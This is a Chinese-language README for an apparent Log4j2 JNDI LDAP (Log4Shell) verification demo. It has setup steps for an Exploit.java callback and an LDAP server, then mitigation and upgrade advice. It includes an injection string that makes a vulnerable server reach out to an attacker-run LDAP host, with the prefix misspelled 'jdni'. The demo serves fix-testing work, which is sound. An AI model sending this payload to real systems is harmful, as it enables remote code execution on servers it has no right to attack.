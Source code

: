## 免责声明
本demo仅用于验证Log4j2 JNDI LDAP漏洞，测试修复方案是否生效使用。非经本人授权造成的网络攻击，与本人无关。

## 使用方式
1. 修改 `gather-result` 项目中默认包下 `Exploit.java` 连接的地址为准备部署 `gather-result` 的IP，并编译放到resources/static 目录下
2. 修改 `light-ldap-server` 常量指向的IP与第一步的IP一致，并启动

### 本地验证
执行 `log4j-local-test` 的 `main` 方法

### 远程验证
调用应用打日志的接口，使替换的变量为 `${jdni:ldap://light-ldap-server部署地址/任意值}`

### 验证结果
验证结果会打印到 `gather-result` 的控制台上

## 修复方案
### 临时修复方案
1. 对于2.0-2.10版本，应先升级至2.10+，再增加jvm参数 `-Dlog4j2.formatMsgNoLookups=true`
2. 修改配置在应用 classpath 下添加 `log4j2.component.properties`配置文件内容如下：
```properties
log4j2.formatMsgNoLookups=true
```
3. 设置系统环境变量 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`
4. 自行编译 `log4j-core`
### 长久修复方案
1. 升级当前 2.15.0 官方稳定版本
2. 升级JDK 高于 1.8.191

## 参考
https://github.com/mbechler/marshalsec
https://github.com/lcosmos/apache-log4j-poc